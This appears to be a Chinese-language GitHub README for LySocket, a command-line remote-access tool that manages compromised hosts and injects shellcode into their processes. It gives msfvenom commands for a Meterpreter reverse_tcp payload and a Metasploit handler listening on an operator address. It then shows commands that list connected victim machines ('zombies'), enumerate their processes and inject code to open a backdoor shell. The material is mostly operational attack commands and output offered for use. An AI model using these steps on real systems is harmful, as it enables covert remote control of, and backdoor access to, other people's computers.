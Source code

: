 # LySocket 远程ShellCode种植远控

<br>

<div align=center>

![logo](https://user-images.githubusercontent.com/52789403/191662936-77e48078-82ed-4d9b-8ae2-c1df303ed5aa.png)

</div>

<br>

LySocket 是一款使用纯 `WindowsAPI` 实现的命令行版远程控制工具，该工具通过最少的代码实现了套接字的批量管理操作，用户可以指定对远程主机内特定进程注入`ShellCode`载荷，只要对端`LyClient`客户端能一直运行，则`Metasploit`攻击载荷就可以很方便的注入到目标主机任意的进程内反弹。

首先需要通过`Metasploit`工具生成一个有效载荷。
```
[root@lyshark ~]# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.93.128 LPORT=9999 -f c
```
后台侦听器的配置，使用时需要与载荷的位数相对应。
```
msf6 > use exploit/multi/handler
msf6 > set payload windows/meterpreter/reverse_tcp
msf6 > set lhost 192.168.93.128
msf6 > set lport 9999
msf6 exploit(multi/handler) > exploit
```

 - 输出当前在线的客户端列表

命令`ShowSocket`可输出当前有多少肉鸡上线了，用于确定对端IP地址，该套接字列表程序内会自动维护，如果客户端下线则Socket套接字将会被清理。
```C
[ LySocket ] # ShowSocket
--------------------------------------------------------------------
索引             客户端地址              端口            状态
--------------------------------------------------------------------
0                127.0.0.1               1763            Open
1                127.0.0.1               1806            Open
2                127.0.0.1               1807            Open
3                127.0.0.1               1808            Open
--------------------------------------------------------------------
```

 - 获取客户端进程列表

命令`GetProcessList`可用于得到对段主机内有哪些进程正在运行，这是注入代码的前提条件。
```C
[ LySocket ] # GetProcessList --address 127.0.0.1
--------------------------------------------------------------------
索引             进程PID                 进程位数                进程名
--------------------------------------------------------------------
0                4       x64             System
1                124     x64             Registry
2                568     x64             smss.exe
3                856     x64             csrss.exe
4                956     x64             wininit.exe
5                964     x64             csrss.exe
6                80      x64             services.exe
7                484     x64             lsass.exe
8                564     x64             winlogon.exe
9                672     x64             svchost.exe
10               1060    x64             fontdrvhost.exe
11               1068    x64             fontdrvhost.exe
12               1100    x64             WUDFHost.exe
--------------------------------------------------------------------
```

 - 注入ShellCode到指定进程内

使用如下命令注入ShellCode到特定进程内，MSF即可反弹后门链接了。
```C
[ LySocket ] # InjectRemoteCode --address 127.0.0.1 --pid 1234 --shellcode xfec12defferciruq
[+] Success..
```
